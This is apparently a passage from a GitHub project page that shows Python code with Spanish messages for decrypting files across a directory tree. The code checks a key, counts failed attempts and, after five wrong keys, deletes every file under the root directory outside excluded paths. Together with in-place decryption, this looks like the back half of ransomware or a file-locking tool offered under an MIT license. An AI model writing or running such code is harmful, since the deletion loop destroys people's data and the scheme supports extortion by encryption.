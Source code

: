 ```python
                    test_file = True
                    break
                except InvalidToken:
                    continue
            if test_file:
                break
        is_valid_key = True
    except InvalidToken:
        attempts += 1
        encrypted_attempts = internal_cipher.encrypt(str(attempts).encode())
        with open(attempts_path, 'wb') as attempts_file:
            attempts_file.write(encrypted_attempts)
        if attempts < 5:
            messagebox.showerror("Clave incorrecta", f"Clave de encriptación incorrecta. Te quedan {5 - attempts} intentos.")
        else:
            messagebox.showerror("Máximo de intentos alcanzado", "Número máximo de intentos fallidos alcanzado. Eliminando archivos.")
            for dirpath, dirnames, filenames in os.walk(root_dir):
                if should_exclude(dirpath):
                    continue
                for filename in filenames:
                    filepath = os.path.join(dirpath, filename)
                    os.remove(filepath)
            exit()

if is_valid_key:
    # Restablecer el contador de intentos si la clave es correcta
    if os.path.exists(attempts_path):
        os.remove(attempts_path)

    def decrypt_and_restore_file(filepath):
        try:
            with open(filepath, 'rb') as file:
                encrypted_data = file.read()
            
            decrypted_data = cipher.decrypt(encrypted_data)
            
            with open(filepath, 'wb') as decrypt_file:
                decrypt_file.write(decrypted_data)
        except Exception as e:
            print(f"Error desencriptando el archivo {filepath}: {e}")

    # Desencriptar archivos con una barra de progreso
    with tqdm(total=sum([len(files) for r, d, files in os.walk(root_dir)]), desc="Desencriptando archivos", ncols=100) as pbar:
        for dirpath, dirnames, filenames in os.walk(root_dir):
            if should_exclude(dirpath):
                continue
            for filename in filenames:
                filepath = os.path.join(dirpath, filename)
                decrypt_and_restore_file(filepath)
                pbar.update(1)
print("Archivos desencriptados y restaurados con sus nombres y rutas originales.")
```

### 📝 Licencia

Este proyecto está bajo la Licencia MIT. Para más detalles, consulta el archivo LICENSE.
